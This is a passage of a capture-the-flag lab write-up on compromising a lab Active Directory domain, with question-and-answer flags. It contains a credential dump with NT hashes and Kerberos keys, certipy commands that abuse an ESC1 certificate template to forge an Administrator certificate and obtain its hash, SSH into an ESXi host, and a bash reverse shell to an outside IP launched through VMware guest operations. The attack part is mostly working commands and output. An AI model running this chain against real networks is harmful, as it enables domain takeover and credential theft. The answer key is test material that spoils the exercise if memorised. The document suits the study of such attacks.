        == WDIGEST [61b46]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == DPAPI [61b46]==
                luid 400198
                key_guid 82e23f8a-01fd-4f63-8d5b-35eed447be57
                masterkey 8a2402202d8f2036b658c41e094a51ee577f17a5b894934260991e7cb4c58701d68ee7df00d3afdddf24a4f2d15bd2404373cf88453959ae4fc0f3b484a030be
                sha1_masterkey b2e5a1cd024a57acff8984d077b7c13a4ddf3ec5

== LogonSession ==
authentication_id 70682 (1141a)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2025-10-04T11:23:57.711031+00:00
sid S-1-5-90-0-1
luid 70682
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1141a]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 2f2effaa3bbb8acb54bf1cc902017a8a34749b680c4b98a81661900103d7c870
        == WDIGEST [1141a]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 996 (3e4)
session_id 0
username SQL-SRV$
domainname TELECORE
logon_server 
logon_time 2025-10-04T11:23:57.568084+00:00
sid S-1-5-20
luid 996
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [3e4]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: sql-srv$
                Domain: TELECORE.AD
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 34971434b95420f96f734a478104139529c6190336d5a6305a6474274eb98657
        == WDIGEST [3e4]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 17960790 (1120f56)
session_id 0
username tel_engineer01
domainname TELECORE
logon_server DC01
logon_time 2025-10-05T07:58:47.896712+00:00
sid S-1-5-21-1588247407-410625039-1511794522-1117
luid 17960790
        == MSV ==
                Username: tel_engineer01
                Domain: TELECORE
                LM: NA
                NT: e2b1996aaff0f57bccb916265a77970e
                SHA1: 18bef25bb6db49a974f74729c5669c27bd8691ed
                DPAPI: 7681402b277d62ce695705259d9a1ef200000000
        == WDIGEST [1120f56]==
                username tel_engineer01
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: tel_engineer01
                Domain: TELECORE.AD
                AES128 Key: e2b1996aaff0f57bccb916265a77970e
                AES256 Key: 75b3b660d2f5843a85f138e8f0bdc9f26cec838f9a32405bfbccae6d1b829141
        == WDIGEST [1120f56]==
                username tel_engineer01
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 17705185 (10e28e1)
session_id 1
username Administrator
domainname SQL-SRV
logon_server SQL-SRV
logon_time 2025-10-05T07:57:14.213384+00:00
sid S-1-5-21-2383328585-537152446-1969760400-500
luid 17705185
        == MSV ==
                Username: Administrator
                Domain: SQL-SRV
                LM: NA
                NT: 192fb152a1b932819f8454fd01016fa8
                SHA1: c3c90e0466d42595869bf9e7226efc324288ac0b
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [10e28e1]==
                username Administrator
                domainname SQL-SRV
                password None
                password (hex)
        == Kerberos ==
                Username: Administrator
                Domain: SQL-SRV
        == WDIGEST [10e28e1]==
                username Administrator
                domainname SQL-SRV
                password None
                password (hex)
        == DPAPI [10e28e1]==
                luid 17705185
                key_guid e065a6dc-d83f-4ecb-a997-8e5538e0a35b
                masterkey 482344e9b7b87fa35afea00a67cdda242a654782ce2d460fe05e4ddc3619e79a01bbceb12171b8d03133e9db5c3740ff7579c8a8e3d888e7de3ff71752ae5be0
                sha1_masterkey bebc2e9a0374691934a9ff98c91d1b9b68e8f5e7

== LogonSession ==
authentication_id 997 (3e5)
session_id 0
username LOCAL SERVICE
domainname NT AUTHORITY
logon_server 
logon_time 2025-10-04T11:23:57.742270+00:00
sid S-1-5-19
luid 997
        == Kerberos ==
                Username: 
                Domain: 

== LogonSession ==
authentication_id 46212 (b484)
session_id 0
username 
domainname 
logon_server 
logon_time 2025-10-04T11:23:57.381220+00:00
sid None
luid 46212
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
```

---
**Question 6:** Discovered NTLM Hash of "tel_engineer01" user in the SQL Server LSASS Dump?
**Answer:** e2b1996aaff0f57bccb916265a77970e

---

## Active Directory Certificate Services (ADCS) Exploitation

With valid domain credentials for tel_engineer01 obtained through the SQL Server compromise, the next phase focuses on exploiting Active Directory Certificate Services vulnerabilities to achieve privilege escalation to Domain Administrator.

### Certificate Services Enumeration

**Objective**: Identify vulnerable certificate templates that could be exploited for privilege escalation.

**Methodology**: Using Certipy-AD to enumerate certificate authorities and templates for potential ESC (Escalation) vulnerabilities.

**Certificate Authority Discovery:**

```bash
env)─(kali㉿kali)-[~/learning/AD-RTS]
└─$ certipy-ad find -u tel_engineer01 -hashes :e2b1996aaff0f57bccb916265a77970e -dc-ip 10.5.2.2 -stdout -vulnerable
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The resolution lifetime expired after 5.404 seconds: Server Do53:10.5.2.2@53 answered The DNS operation timed out.; Server Do53:10.5.2.2@53 answered The DNS operation timed out.; Server Do53:10.5.2.2@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'telecore-PKI-SRV-CA' via RRP
[*] Successfully retrieved CA configuration for 'telecore-PKI-SRV-CA'
[*] Checking web enrollment for CA 'telecore-PKI-SRV-CA' @ 'PKI-Srv.telecore.ad'
[!] Failed to check channel binding: The read operation timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : telecore-PKI-SRV-CA
    DNS Name                            : PKI-Srv.telecore.ad
    Certificate Subject                 : CN=telecore-PKI-SRV-CA, DC=telecore, DC=ad
    Certificate Serial Number           : 35DFAB7883C30297420CBFD2E33CB408
    Certificate Validity Start          : 2025-08-21 07:41:20+00:00
    Certificate Validity End            : 2125-08-21 07:51:20+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : True
        Channel Binding (EPA)           : Unknown
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TELECORE.AD\Administrators
      Access Rights
        ManageCa                        : TELECORE.AD\Administrators
                                          TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
        ManageCertificates              : TELECORE.AD\Administrators
                                          TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
        Enroll                          : TELECORE.AD\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates
  0
    Template Name                       : Badges
    Display Name                        : Badges
    Certificate Authorities             : telecore-PKI-SRV-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-09-06T17:33:55+00:00
    Template Last Modified              : 2025-09-06T17:34:15+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
      Object Control Permissions
        Owner                           : TELECORE.AD\Administrator
        Full Control Principals         : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_admin01
        Write Owner Principals          : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_admin01
        Write Dacl Principals           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_admin01
        Write Property Enroll           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
    [+] User Enrollable Principals      : TELECORE.AD\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```
**Critical Finding**: ESC1 Vulnerability Identified!

### ESC1 Vulnerability Analysis

**Vulnerability Details:**
- **Template Names**: Badges & Tel_User templates both vulnerable
- **Issue**: Both templates allow "Enrollee Supplies Subject" AND permit "Client Authentication"
- **Impact**: Any domain user can request a certificate with ANY Subject Alternative Name (SAN), including privileged accounts like Domain Administrators

**Exploitation Requirements Met:**
1. ✅ Domain Users have enrollment rights
2. ✅ Templates allow client authentication  
3. ✅ Enrollee supplies subject is enabled
4. ✅ No manager approval required
5. ✅ tel_engineer01 has valid domain credentials

### Certificate Request for Privilege Escalation

**Objective**: Request a certificate impersonating the Administrator account to obtain Domain Admin privileges.

**ESC1 Exploitation - First Attempt (Badges Template):**

```bash
─$ certipy-ad req -u tel_engineer01 -hashes :e2b1996aaff0f57bccb916265a77970e -dc-ip 10.5.2.8 -ca telecore-PKI-SRV-CA -target PKI-Srv.telecore.ad -template Badges -upn Administrator@telecore.ad -out Administrator.pfx
    Template Name                       : Tel_User
    Display Name                        : Tel_User
    Certificate Authorities             : telecore-PKI-SRV-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-08-22T08:02:50+00:00
    Template Last Modified              : 2025-08-22T08:02:52+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TELECORE.AD\tel_engineer01
                                          TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
      Object Control Permissions
        Owner                           : TELECORE.AD\Administrator
        Full Control Principals         : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
        Write Owner Principals          : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
        Write Dacl Principals           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
        Write Property Enroll           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
    [+] User Enrollable Principals      : TELECORE.AD\Domain Users
                                          TELECORE.AD\tel_engineer01
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
  2
    Template Name                       : Copy of Copy of User
    Display Name                        : Copy of Copy of User
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2025-08-21T12:21:07+00:00
    Template Last Modified              : 2025-08-21T12:21:30+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
      Object Control Permissions
        Owner                           : TELECORE.AD\Administrator
        Full Control Principals         : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_engineer01
        Write Owner Principals          : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_engineer01
        Write Dacl Principals           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Enterprise Admins
                                          TELECORE.AD\tel_engineer01
        Write Property Enroll           : TELECORE.AD\Domain Admins
                                          TELECORE.AD\Domain Users
                                          TELECORE.AD\Enterprise Admins
    [+] User ACL Principals             : TELECORE.AD\tel_engineer01
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

```bash
─$ certipy-ad req -u tel_engineer01 -hashes :e2b1996aaff0f57bccb916265a77970e -dc-ip 10.5.2.8 -ca telecore-PKI-SRV-CA -target PKI-Srv.telecore.ad -template Badges -upn Administrator@telecore.ad -out Administrator.pfx
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The resolution lifetime expired after 5.403 seconds: Server Do53:10.5.2.8@53 answered The DNS operation timed out.; Server Do53:10.5.2.8@53 answered The DNS operation timed out.; Server Do53:10.5.2.8@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
```

**First Attempt Failed**: Network connectivity issues with the PKI server. 

**ESC1 Exploitation - Second Attempt (Tel_User Template):**
Switching to the Tel_User template and adjusting connection parameters:

```bash
┌──(.venv)─(kali㉿kali)-[~/learning/AD-RTS]
└─$ certipy-ad req -u tel_engineer01 -hashes :e2b1996aaff0f57bccb916265a77970e -dc-ip 10.5.2.2 -ca telecore-PKI-SRV-CA -target PKI-Srv.telecore.ad -template Tel_User -upn Administrator@telecore.ad -out Administrator.pfx  
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The resolution lifetime expired after 5.404 seconds: Server Do53:10.5.2.2@53 answered The DNS operation timed out.; Server Do53:10.5.2.2@53 answered The DNS operation timed out.; Server Do53:10.5.2.2@53 answered The DNS operation timed out.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 24
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@telecore.ad'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'Administrator.pfx'
[*] Wrote certificate and private key to 'Administrator.pfx'
```

**Success!** Certificate successfully issued with Administrator UPN.

### Certificate-based Authentication for Privilege Escalation

**Objective**: Use the forged Administrator certificate to authenticate as Domain Administrator.

**Certificate Authentication:**

```bash
─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.5.2.2
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@telecore.ad'
[*]     SAN URL SID: 'S-1-5-21-1588247407-410625039-1511794522-500'
[*]     Security Extension SID: 'S-1-5-21-1588247407-410625039-1511794522-500'
[*] Using principal: 'administrator@telecore.ad'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@telecore.ad': aad3b435b51404eeaad3b435b51404ee:bfb19bca32a6aab8e0b9a836da860e32
```

**Success! Domain Administrator Compromise Achieved**

**Critical Achievement**: Successfully obtained Administrator NTLM hash through certificate-based authentication attack (ESC1 vulnerability exploitation).

**Attack Summary**: 
1. ✅ Exploited ESC1 vulnerability in Tel_User certificate template
2. ✅ Requested certificate with Administrator UPN impersonation  
3. ✅ Used forged certificate for Kerberos authentication
4. ✅ Retrieved Administrator NTLM hash via UnPACTheCAS technique
5. ✅ **Domain Admin Privileges Obtained**

---
**Question 9:** NTLM Hash of the Domain Admin?
**Answer:** bfb19bca32a6aab8e0b9a836da860e32

---



---
**Question 10:** Cracked NTLM hash of the Domain Admin?
**Answer:** August1990password

---

### ESXi Infrastructure Compromise

**Objective**: Use the compromised Domain Administrator credentials to access the VMware ESXi hypervisor infrastructure.

**Hypervisor Access:**
With the cracked Domain Administrator password, attempting SSH access to the ESXi host:

```bash
─(.venv)─(kali㉿kali)-[~/learning/AD-RTS]
└─$ ssh administrator@telecore.ad@10.5.2.111
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
(administrator@telecore.ad@10.5.2.111) Password: 
The time and date of this login have been sent to the system logs.

WARNING:
   All commands run on the ESXi shell are logged and may be included in
   support bundles. Do not provide passwords directly on the command line.
   Most tools can prompt for secrets or accept them from standard input.

VMware offers supported, powerful system administration tools.  Please
see www.vmware.com/go/sysadmintools for details.

The ESXi Shell can be disabled by an administrative user. See the
vSphere Security documentation for more information.
Could not chdir to home directory /home/local/TELECORE/administrator: No such file or directory
[TELECORE\administrator@ESXi-VD:~]
```

**ESXi Shell Access Successful!** 

**Objective**: Enumerate virtual machines and discover additional attack vectors within the virtualized environment.

**VM Discovery:**

```bash
[TELECORE\administrator@ESXi-VD:~] vim-cmd vmsvc/getallvms
Vmid    Name                   File                   Guest OS      Version                     Annotation                   
1      VaultVM   [datastore1] VaultVM/VaultVM.vmx   ubuntu64Guest   vmx-13    Guest VM Credentials : 

linux \ VaultAdmin@123
[TELECORE\administrator@ESXi-VD:~] 
```

---
**Question 11:** The Guest VM Password disclosed in the annotations (notes)?
**Answer:** VaultAdmin@123

---

```bash
[TELECORE\administrator@ESXi-VD:~] vim-cmd vmsvc/get.guest 1
Guest information:

(vim.vm.GuestInfo) {
   toolsStatus = "toolsOk", 
   toolsVersionStatus = "guestToolsUnmanaged", 
   toolsVersionStatus2 = "guestToolsUnmanaged", 
   toolsRunningStatus = "guestToolsRunning", 
   toolsVersion = "12421", 
   toolsInstallType = "guestToolsTypeOpenVMTools", 
   toolsUpdateStatus = (vim.vm.GuestInfo.ToolsUpdateStatus) null, 
   guestId = "ubuntu64Guest", 
   guestFamily = "linuxGuest", 
   guestFullName = "Ubuntu Linux (64-bit)", 
   hostName = "linux", 
   ipAddress = "10.5.2.50", 
   net = (vim.vm.GuestInfo.NicInfo) [
      (vim.vm.GuestInfo.NicInfo) {
         network = "VM Network", 
         ipAddress = (string) [
            "10.5.2.50"
         ], 
         macAddress = "00:0c:29:99:7c:f1", 
         connected = true, 
         deviceConfigId = 4000, 
         dnsConfig = (vim.net.DnsConfigInfo) null, 
         ipConfig = (vim.net.IpConfigInfo) {
            ipAddress = (vim.net.IpConfigInfo.IpAddress) [
               (vim.net.IpConfigInfo.IpAddress) {
                  ipAddress = "10.5.2.50", 
                  prefixLength = 24, 
                  origin = <unset>, 
                  state = "preferred", 
                  lifetime = <unset>
               }
            ], 
            dhcp = (vim.net.DhcpConfigInfo) null, 
            autoConfigurationEnabled = <unset>
         }, 
         netBIOSConfig = (vim.net.NetBIOSConfigInfo) null
      }
   ], 
   ipStack = (vim.vm.GuestInfo.StackInfo) [
      (vim.vm.GuestInfo.StackInfo) {
         dnsConfig = (vim.net.DnsConfigInfo) {
            dhcp = false, 
            hostName = "linux", 
            domainName = ".", 
            ipAddress = (string) [
               "10.5.2.2"
            ], 
            searchDomain = (string) [
               "."
            ]
         }, 
         ipRouteConfig = (vim.net.IpRouteConfigInfo) {
            ipRoute = (vim.net.IpRouteConfigInfo.IpRoute) [
               (vim.net.IpRouteConfigInfo.IpRoute) {
                  network = "0.0.0.0", 
                  prefixLength = 0, 
                  gateway = (vim.net.IpRouteConfigInfo.Gateway) {
                     ipAddress = "10.5.2.1", 
                     device = "0"
                  }
               }, 
               (vim.net.IpRouteConfigInfo.IpRoute) {
                  network = "10.5.2.0", 
                  prefixLength = 24, 
                  gateway = (vim.net.IpRouteConfigInfo.Gateway) {
                     ipAddress = <unset>, 
                     device = "0"
                  }
               }
            ]
         }, 
         ipStackConfig = <unset>, 
         dhcpConfig = (vim.net.DhcpConfigInfo) null
      }
   ], 
   disk = <unset>, 
   screen = (vim.vm.GuestInfo.ScreenInfo) {
      width = 937, 
      height = 703
   }, 
   guestState = "running", 
   powerPolicy = (vim.vm.PowerPolicy) null, 
   appHeartbeatStatus = "appStatusGray", 
   guestKernelCrashed = false, 
   appState = "none", 
   guestOperationsReady = true, 
   interactiveGuestOperationsReady = true, 
   guestStateChangeSupported = true, 
   generationInfo = <unset>, 
   customizationInfo = (vim.vm.GuestInfo.CustomizationInfo) null
}
[TELECORE\administrator@ESXi-VD:~] 
```

### Guest VM Exploitation 

**Objective**: Leverage the discovered VM credentials to gain access to the guest virtual machines running on the ESXi hypervisor.

**Discovered Intelligence:**
- **VM Name**: VaultVM  
- **Guest OS**: Ubuntu 64-bit
- **Credentials**: linux / VaultAdmin@123 (found in VM annotations)

**VMware Guest Operations Exploitation:**
Using a custom Python script to execute commands within the guest VM via VMware's guest operations API:

```bash
┌──(.venv)─(kali㉿kali)-[~/learning/AD-RTS]
└─$ python3 cmd_exec.py --host 10.5.2.111 --user administrator@telecore.ad --password 'August1990password' --vm 'VaultVM' --guest-user linux --guest-pass 'VaultAdmin@123' --cmd /bin/bash --args "-c 'bash -i >& /dev/tcp/10.10.40.85/5555 0>&1'"
Started PID 7618
Exit Code: None
```

**Reverse Shell Establishment:**
Setting up a netcat listener to catch the reverse shell from the guest VM:

```bash
┌──(kali㉿kali)-[~/learning/AD-RTS]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.40.85] from (UNKNOWN) [172.26.1.14] 39587
bash: cannot set terminal process group (1400): Inappropriate ioctl for device
bash: no job control in this shell
Welcome to Linux Lite 7.4 linux
 
Sunday 05 October 2025, 13:04:04
Memory Usage: 1060/2930MB (36.18%)
Disk Usage: 217/1GB (15%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
 linux  ~  ls
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
 linux  ~  cd Desktop
cd Desktop
 linux  ~  Desktop  ls
ls
computer.desktop
Congrats.txt
helpmanual.desktop
network.desktop
settings.desktop
ubiquity.desktop
userfiles.desktop
 linux  ~  Desktop  cat Congrats.txt
cat Congrats.txt
ad_red_team_specialist

```

---
**Question 12:** The flag present inside the ESXI Guest VM?
**Answer:** ad_red_team_specialist

---